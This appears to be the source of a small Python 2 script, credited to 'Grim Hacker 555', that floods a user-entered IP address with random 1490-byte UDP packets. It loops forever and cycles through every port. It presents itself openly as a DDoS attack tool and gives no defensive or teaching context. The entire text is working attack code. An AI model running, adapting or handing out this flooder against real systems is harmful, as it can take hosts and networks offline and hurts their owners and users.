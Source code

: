 # Ddos-ip
import sys
import os
import time
import socket
import random
##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############

os.system("clear")
os.system("figlet DDos Attack")
print
print "555"
print "You Tube : Grim Hacker 555"
print "github   : https://github.com/Grim-Hacker-555"
print "Facebook : Phacker"
print
ip = raw_input("IP Target : ")
port = input("Port       : ")
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     if port == 65534:
       port = 1
